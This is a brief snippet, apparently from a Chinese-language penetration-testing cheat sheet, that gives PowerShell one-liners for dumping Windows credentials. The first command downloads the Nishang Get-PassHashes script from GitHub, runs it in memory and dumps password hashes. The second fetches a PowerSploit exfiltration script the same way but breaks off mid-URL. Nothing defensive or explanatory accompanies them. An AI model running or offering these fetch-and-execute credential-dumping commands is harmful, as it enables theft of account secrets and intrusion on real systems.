 在线导hash

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes


在线导明文

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration

